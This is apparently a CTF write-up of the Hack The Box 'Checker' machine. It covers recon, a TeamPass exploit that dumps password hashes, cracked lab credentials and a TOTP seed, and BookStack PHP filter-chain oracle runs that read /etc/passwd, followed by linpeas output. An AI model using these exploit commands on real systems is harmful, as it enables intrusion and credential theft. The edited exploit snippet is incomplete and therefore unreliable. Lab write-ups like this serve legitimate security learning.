# checker
@10.10.11.56
@https://checker.htb

# Nmap
```sh
nmap -p- --min-rate 1000 -v -Pn 10.10.11.56
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-31 03:47 IST
Nmap scan report for 10.10.11.56
Host is up (0.41s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 85.36 seconds
           Raw packets sent: 84565 (3.721MB) | Rcvd: 84565 (3.383MB)


┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox]
└─$ nmap -p 80,8080,22 -sC -sV 10.10.11.56 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-31 03:53 IST
Nmap scan report for 10.10.11.56
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.53 seconds
                                                             
```

# nikto
```sh
┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox]
└─$ nikto -host 10.10.11.56 
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.56
+ Target Hostname:    10.10.11.56
+ Target Port:        80
+ Start Time:         2025-03-31 04:01:25 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache
+ /: Cookie XSRF-TOKEN created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://checker.htb/login
+ No CGI Directories found (use '-C all' to force check all possible dirs)
```


# port 80


check source code and got to see manifest.json.

## manifest.json

got manifest.json page and got more info about app.

```text
    <!-- Styles -->
    <link rel="stylesheet" href="http://checker.htb/dist/styles.css?version=v23.10.2">
    
    ...
    
    <script src="http://checker.htb/dist/app.js?version=v23.10.2" nonce="cvdVkbP5BiQzvyKQy011IPXU"></script>
```

got the bookstack version so download it according to it.


and check files of bookstack applications.....

## robots.txt


## status file


```
{"database":true,"cache":true,"session":true}
```

# /help/wysiwyg
got shortcuts and license page.


got nothing much next let's check port 8080.


# port 8080


let's check source code
got a new subdomain, new css file and data.....


while in burp we got base64 encoded data.....


using cyberchef we got chiper text, iv, iteration and salt for it.....
```
{"ciphertext":"TENE55tY8NTkaisVJ4KYtycheAzAKKLQhzbIQJt5TxucD\/Qr2LV4xX0fLeNjg09wXLade9Y3cjI9FxRxX2Hps1PGfueHeHhFokIdwxD+s1wGl99ACSYnIf5CwGsb89cqpZ37sUaTz7TOk\/htj86g8XttjAPeuAmWuPzX7GNSUPdVUELN5PQA0taUDJxcpchwJjtuMi769yph0bNBTDhp+RLkvJDSZWxTyBAsRRNZYJuVlT4xN7SYsAF6kX5GKiPPFHUi5UKzZQZgoh0H7+N\/xohSrNckQg6ceAAlYWhLdkCeGb5L9+RzT\/170KvZIaKPsGKDy6cMZlyBSyJrmjALyQNmdGwox4kdk18\/urO\/wsXP4toYRQQqsrqwcY9pgJhXyhWoom6Z00ts\/UwB4WOib9+5OwQk8pn6VMAKrSduutw=","iv":"2e86f7efa8f22721fb80f2c1496fe099","salt":"f1ab79994b3843c64f0a5d32ba11ddb038b9374355a0afddac8e66e5f3f1b4a3b13fdb98c5e1cd2b03d81a2b09bbc1b7ee47857e98c3cecd0fa72f86b898d0b4cc405e3a29b1cb45c80f4739f2c96ddcd83bdb1d07fe7d4e31087e8726c307b2694a93df6ebae7d223d997302a3efd281c116bd1cc76be31819bd0f91b4e9e70f52567ae4c17fae2e6bc62cd1b85700c01d38e8c016b28cd135fe2da38101926a54a11c442469f8b06847497f1da3517e703d94d3c504bf778c2ff6a1dcee447a57bf2b62ca029583389f1f8b692ccea258ffbe965c2d8e2291158efdfe6787c019decd33cdd0b5fa009995fe15b0c7968a3ce61dfdd446fc18f3af369513a9d","iterations":999}
```
but not much anything......

# port 22
ssh version was OpenSSH 8.9p1 Ubuntu 3ubuntu0.10. I was reminded about openssh critical exploit so i search about it.
and i found [checker for this exploit](https://github.com/David-M-Berry/openssh-cve-discovery).


```sh
┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox/hard]
└─$ sudo python3 22-exploit.py --cidr 10.10.11.56
Scanning started at: 2025-03-31 07:05:37.071502
Total hosts to scan: 1
Host: checker.htb, Port: 22, OpenSSH Version: OpenSSH 8.9p1 Ubuntu 3ubuntu0.10, Vulnerability: Vulnerable to regreSSHion
Scanning completed at: 2025-03-31 07:06:05.487180
Duration: 0:00:28.415678
```

it was vulnerable so time to find exploit .


and i waste much time here try to exploit it but test show it can be exploited but not in reality.


# port 8080 - teampass
So i went to port 8080 search for it's exploit.......
and after searching for a bit found function.js file


as license was for between for 2009 to 2022 so we can be sure it's exploit come after that. So i check for all latest exploits and found one.....


And finally got our creds.....


```sh
┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox/hard]
└─$ python3 52094.py http://10.10.11.56:8080
2025-03-31 09:14:18,565 - INFO - Encontrados 2 usuários no sistema
2025-03-31 09:14:21,487 - INFO - Credenciais obtidas para: admin
2025-03-31 09:14:24,443 - INFO - Credenciais obtidas para: bob

Credenciais encontradas:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```
and using john the ripper decrypted it....
```sh
┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox/hard]
└─$ john cipher    
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
cheerleader      (?)     


```

and i try it with user admin and bob and bob got logged in.


and got ssh creds for bob..... 

```
password: hiccup-publicly-genesis
```

also got bob bookstack password.....


```
password : mYSeCr3T_w1kI_P4sSw0rD
mail: bob@checker.htb
```

also got bob profile and other infos


```
api token: qXEsxMzqCQFsmCp8kjpshnG3u7ESjFrPhhzzMWC
```

as ssh creds are not working so let's focus on port 80 bookstack.......... 

# port 80
So first try to login...... 
```
password : mYSeCr3T_w1kI_P4sSw0rD
mail: bob@checker.htb
```

and got logged in as bob.


So i went to port 80 search for it's exploit.......


and first create a book and then also save draft of it.
and try

```
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"eyJpdiI6IkdSd1U1MXVYZ3hHNjFUTVZ5MUxVVlE9PSIsInZhbHVlIjoiK3VZcXc2TDdMTUV0VkVRSW0xU3ZtZ1c0d09HYXJBM0Y1aVl2NnBsV0FLRmcvNHB5U2Zra0dyd2dZYlo1QjFqUjV2b0tTU2RuZnh5d3VOdUltZ3pPT0o5WEhCV1h5Si83d3daMDcvd284VDZyTUl2cFNrK3JSSlRmZjVPdHZocHQiLCJtYWMiOiJiOTMyNmRkODdiZTNhY2I0NTBmYWQxMWViM2RmODgzNTIzNzlkZmY3YjQ1OTNmMDAxZTllM2JlOGRiYWIxYWY2IiwidGFnIjoiIn0%3D","Cookie":"bookstack_session=eyJpdiI6InM5czFlNmRlTGhFOWZsenRYWVIzbnc9PSIsInZhbHVlIjoiUFhkK0c2bWxheTBuek42OGRkRkFwVGxQMVJ2ZUtuTmhPUUNlU3pqS3hORmd4eFRPemZheVhSUjRwM3VibTQ0aVFCbldJRTNJQ0g1MmJ4ajBnanlqUWgveVorVTVoYzRVd3FoNGsxcEQvaXFUY3RkM3cvTUVoZVpDZUdiQ2R6eFUiLCJtYWMiOiJmOThlM2MwZTQ3NTRlZGVkMDI4MDlhYzc0MTdjZDI2NTUxZTQ3NTk4NjBkYzlhZDAwZDE5ZjJkMWI2Zjc5NWUxIiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd'
```

and it didnt work so i check online and more about this exploit and come across this [fuildattacks blog](https://fluidattacks.com/advisories/imagination/).

And got to know more about this exploit. And check if there is really any possible vulnerability there.....

And file was uploaded.


But we can't access it and nor we can do anything else with it.....
I even try adding php code but it doesn't work.


While confirm `x-www-form-urlencoded` data also got accepted.....


Upon loading book page it will come out commeneted in html page.
Next, Again searching on google i come across new article from [fluidattacks](https://fluidattacks-com.translate.goog/blog/lfr-via-blind-ssrf-book-stack/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB).
This time we can understand vulnerability more accurately.....
And we need to update our exploit for img tag as i check there is no handler for img tag in exploit....
```sh
        insert_base64 = base64.b64encode(filter_chain.encode('utf-8')).decode('utf-8')
        payload = f""
        merged_data[self.parameter] = payload
```



Next i try again..... 

```
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"eyJpdiI6ImJVWGNqQ29jNTR0TG9xRE5WaUFmd0E9PSIsInZhbHVlIjoiK3pjbzY2TnhEeHd5VGo0NmQ4Vmt3bldUWHMvb29tS3Y2b0JaNU5YekR0bkRZNDZMc2lnNmxDbi84QnpGR2tsek5HYzVJdE8rd1h4bENyWWhOL20vSStuRlV3YnlVZTJ5NDhaSjBuU2NWbDV0QmxxbWt0eFZwN2lMazZIeVd5UzIiLCJtYWMiOiJjOGFhOTcyZTRmNjM5NzI4YWQ1ZDRiYTYxOGFiMzk5NTE2OGQwYzNiNWQ4NmM0MDRjNTNmMzFjNGE4NTIwNTBmIiwidGFnIjoiIn0=","Cookie":"bookstack_session=eyJpdiI6InFtekhQMy9PYXlZcml3RkZnV1I5Z3c9PSIsInZhbHVlIjoiR2hlR2pJUG84STR4aDNqVVFVNk5VR2llUDNXSGNJM2RJZWVLVCtac0U3NHFSVm9ZbDRobEQ0WTVPSEtOSm53STd6dXpFWGh6WUs3SDRYdEMrRnhVOEt4SWhtbDlTaHAydDRKa3hIS1FrZElHWmtpY2d5L0VXV2ZSTVNwWTJKYnIiLCJtYWMiOiJhZTg3MzMxZWU0MjhiMDNmMzNkNjRkNmIwYzIxOTNiYmYwMGQxOTc4NGUzZTc2M2ZiNGZkN2IxNjA2OTcyNzI4IiwidGFnIjoiIn0="}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd' 
```

not worked...... 

```
python3 filters_chain_oracle_exploit.py --verb PUT --target http://checker.htb/books/mayomacam/draft/8 --file '/etc/passwd' --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"eyJpdiI6ImJVWGNqQ29jNTR0TG9xRE5WaUFmd0E9PSIsInZhbHVlIjoiK3pjbzY2TnhEeHd5VGo0NmQ4Vmt3bldUWHMvb29tS3Y2b0JaNU5YekR0bkRZNDZMc2lnNmxDbi84QnpGR2tsek5HYzVJdE8rd1h4bENyWWhOL20vSStuRlV3YnlVZTJ5NDhaSjBuU2NWbDV0QmxxbWt0eFZwN2lMazZIeVd5UzIiLCJtYWMiOiJjOGFhOTcyZTRmNjM5NzI4YWQ1ZDRiYTYxOGFiMzk5NTE2OGQwYzNiNWQ4NmM0MDRjNTNmMzFjNGE4NTIwNTBmIiwidGFnIjoiIn0=","Cookie":"bookstack_session=eyJpdiI6InFtekhQMy9PYXlZcml3RkZnV1I5Z3c9PSIsInZhbHVlIjoiR2hlR2pJUG84STR4aDNqVVFVNk5VR2llUDNXSGNJM2RJZWVLVCtac0U3NHFSVm9ZbDRobEQ0WTVPSEtOSm53STd6dXpFWGh6WUs3SDRYdEMrRnhVOEt4SWhtbDlTaHAydDRKa3hIS1FrZElHWmtpY2d5L0VXV2ZSTVNwWTJKYnIiLCJtYWMiOiJhZTg3MzMxZWU0MjhiMDNmMzNkNjRkNmIwYzIxOTNiYmYwMGQxOTc4NGUzZTc2M2ZiNGZkN2IxNjA2OTcyNzI4IiwidGFnIjoiIn0="}' 
```
even this not worked...... And after many checks code and headers of request found missing `X-CSRF-TOKEN: ifecoMLU4HyTDAmTL8K2tSGaHfpkC5imATbGE00p`
and even cookie i defined is wrong as both XSRF_TOKEN and bookstack_session cookie is in cookies...... 

```
python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"ifecoMLU4HyTDAmTL8K2tSGaHfpkC5imATbGE00p","Cookie":"bookstack_session=eyJpdiI6InFtekhQMy9PYXlZcml3RkZnV1I5Z3c9PSIsInZhbHVlIjoiR2hlR2pJUG84STR4aDNqVVFVNk5VR2llUDNXSGNJM2RJZWVLVCtac0U3NHFSVm9ZbDRobEQ0WTVPSEtOSm53STd6dXpFWGh6WUs3SDRYdEMrRnhVOEt4SWhtbDlTaHAydDRKa3hIS1FrZElHWmtpY2d5L0VXV2ZSTVNwWTJKYnIiLCJtYWMiOiJhZTg3MzMxZWU0MjhiMDNmMzNkNjRkNmIwYzIxOTNiYmYwMGQxOTc4NGUzZTc2M2ZiNGZkN2IxNjA2OTcyNzI4IiwidGFnIjoiIn0=; XSRF-TOKEN=eyJpdiI6ImJVWGNqQ29jNTR0TG9xRE5WaUFmd0E9PSIsInZhbHVlIjoiK3pjbzY2TnhEeHd5VGo0NmQ4Vmt3bldUWHMvb29tS3Y2b0JaNU5YekR0bkRZNDZMc2lnNmxDbi84QnpGR2tsek5HYzVJdE8rd1h4bENyWWhOL20vSStuRlV3YnlVZTJ5NDhaSjBuU2NWbDV0QmxxbWt0eFZwN2lMazZIeVd5UzIiLCJtYWMiOiJjOGFhOTcyZTRmNjM5NzI4YWQ1ZDRiYTYxOGFiMzk5NTE2OGQwYzNiNWQ4NmM0MDRjNTNmMzFjNGE4NTIwNTBmIiwidGFnIjoiIn0="}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd' 
```

after correcting cookies and values i was able to run it as until now i wasted some hours just checking code because i didn't checked my inputs to scripts.....

```
┌──(mayomacam㉿mayomacam)-[~/Documents/hackthebox/hard/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"yzGBaqfAkd0QY7g6s4yfDOUu0DF7CNnKOtuAWiTg","Cookie":"bookstack_session=eyJpdiI6IkozandqM1lzb2ljUjhnemRGVWtFWmc9PSIsInZhbHVlIjoiK08yb1BnTVJGTHpRUTBPWmY4ekR3VlBONzlwcHRDTHpQYVpTYS9XMFIvSC9yMFR4a1EvY2llTld4WThORUhLWi9MMU1CdGdLNWkvbkxGWThSdHArWjVPNlFxVno5by9JdnIrQ2VLSmlaRk96eXJLS0tMU1pGNXZWcGRQWFp1czciLCJtYWMiOiJjNjE3NDU1YjhhZTE4OWQ4Nzk4ZTIzM2NlZmU0YWRmMjI4ZmRjOTlhNzNhNjNjNzYxYzYyZTM1NDdjZDNhNmQwIiwidGFnIjoiIn0=; XSRF-TOKEN=eyJpdiI6IlRmYU1QTFI3Y01KMCtoUFhsdktrTFE9PSIsInZhbHVlIjoicUlyYk1LMzhIWFdRcWJScXpoZ3pKZXhQWk9RTnBRc3NxMzAzazMxR2RmbHVDQk83OGYrYTJkMEhNenNkQithU0ZESTV1WWtnUXdJUFJScjVyK2JvZGthSVBnbi9ZbmtXZGsxZmhVODVvd01PazltWlI4NWR5aEE5Mm5CWE15ZnoiLCJtYWMiOiJmMjg2MjRmZDIxZTUxOWZmMjRiNjcwNWFmNjgwZmEyYmMxZGI3ODczZGEwMTAwNTkwNWE2Y2EyZmQ4NDI1OTg4IiwidGFnIjoiIn0="}' --verb PUT --target http://checker.htb/ajax/page/8/save-draft --file '/etc/passwd'
```
and around 3-4 hour wait i got just this
```
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:p'
```
so i started searching for alternatives.......

# port 22
I once again check port 22 and while got 
```
username: reader
password: hiccup-publicly-genesis
```
This provide an account which password is correct but we need verification code.....
While searching online we found that [Google PAM module](https://github.com/google/google-authenticator-libpam/tree/master) used my many and also there is many example out there so i start with it..... 


but we got nothing so i search more all 3 ports again.....

# port 80
while search all data again as we can get and i come across a book page about backups.....


So i decide to check it also as i was not getting anything useful until now..... 


And we got our key to add totp


```
DVDBRAODLCWF7I2ONA4K5LQLUE
TOTP_AUTH
```

#### next i use code to register totp for it.

Then i try to login, password is right and but got error when totp was entered.


Upon searching on google i come across a writeup for different challange but solved my doubts.....


# user flag
so i switch to us server and got logged in.


and also got our flag.

---
# root
First check with files and move towards `sudo -l` and found file `check-leak.sh` file which i can run without password..............


Upon checking /opt/hash-checker folder got list of hashes......


so i run linpeas......

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: probable
   Tags: [ ubuntu=(22.04) ]{kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: less probable
   Tags: ubuntu=(20.04|21.04),debian=11
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded


╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
Sudoers file: /etc/sudoers.d/reader is readable
Cmnd_Alias HASH_CHECKER = /opt/hash-checker/check-leak.sh *
reader ALL=(ALL) NOPASSWD: HASH_CHECKER

╔══════════╣ Useful software
/usr/bin/base64
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/sbin/lxc
/usr/bin/make
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Feb 17 13:41 /etc/apache2/sites-enabled
drwxr-xr-x 2 root root 4096 Feb 17 13:41 /etc/apache2/sites-enabled
-rw------- 1 root root 865 Feb 17 13:41 /etc/apache2/sites-enabled/vhost.conf


-rw-r--r-- 1 root root 73924 Jun  6  2024 /etc/php/8.1/apache2/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 73920 Jun 12  2024 /etc/php/8.1/cli/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 73718 Jun  8  2024 /etc/php/8.3/apache2/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 73714 Jun  8  2024 /etc/php/8.3/cli/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On


╔══════════╣ Analyzing Backup Manager Files (limit 70)

-rwxr-xr-x 1 www-data root 4016 Jun 12  2024 /opt/BookStack/app/Config/database.php
    $redisDefaults = ['host' => '127.0.0.1', 'port' => '6379', 'database' => '0', 'password' => null];
            'host'           => $mysql_host,
            'database'       => env('DB_DATABASE', 'forge'),
            'password'       => env('DB_PASSWORD', ''),
            'host'           => '127.0.0.1',
            'database'       => 'bookstack-test',
            'password'       => env('MYSQL_PASSWORD', 'bookstack-test'),

╔══════════╣ Analyzing Env Files (limit 70)
-rw-r----- 1 www-data root 1682 Jun 12  2024 /opt/BookStack/.env
-r-------- 1 root root 118 Jan 30 17:07 /opt/hash-checker/.env


PermitRootLogin yes
UsePAM yes
ChallengeResponseAuthentication yes
PasswordAuthentication yes


══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 31K Feb 26  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 35K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 47K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 35K Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 227K Apr  3  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 40K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 72K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 59K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 71K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 19K Feb 26  2022 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x 1 root root 148K Oct 11 08:05 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 331K Jun 26  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 35K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper


╔══════════╣ Capabilities
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#capabilities
══╣ Current shell capabilities
CapInh:  0x0000000000000000=
CapPrm:  0x0000000000000000=
CapEff:	 0x0000000000000000=
CapBnd:  0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
CapAmb:  0x0000000000000000=

╚ Parent process capabilities
CapInh:	 0x0000000000000000=
CapPrm:	 0x0000000000000000=
CapEff:	 0x0000000000000000=
CapBnd:	 0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
CapAmb:	 0x0000000000000000=


Files with capabilities (limited to 50):
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/BookStack/dev/docker/init.db: directory
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5


╔══════════╣ Searching passwords in config PHP files
/opt/BookStack/app/Config/database.php:            'password'       => env('DB_PASSWORD', ''),
/opt/BookStack/app/Config/database.php:            'password'       => env('MYSQL_PASSWORD', 'bookstack-test'),
